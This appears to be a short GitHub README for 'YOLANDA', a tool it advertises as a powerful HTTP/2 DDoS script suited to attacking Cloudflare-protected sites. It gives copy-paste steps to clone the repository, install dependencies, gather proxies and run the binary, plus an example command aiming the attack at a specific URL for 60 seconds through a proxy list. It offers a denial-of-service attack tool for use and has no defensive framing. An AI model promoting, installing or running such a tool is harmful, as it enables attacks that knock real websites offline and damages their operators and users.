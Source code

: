 # YOLANDA
Powerful http/2 DDoS Script, with mix method! great for cloudflare


# Install
- copy & paste
```
git clone https://github.com/MsYor/YOLANDA; cd YOLANDA

pip3 install httpx

unzip YOLANDA.zip

python3 http_proxy.py

chmod +x YOLANDA

./YOLANDA
```
# Example:
./YOLANDA https://tls.mrrage.xyz 60 1 proxy.txt



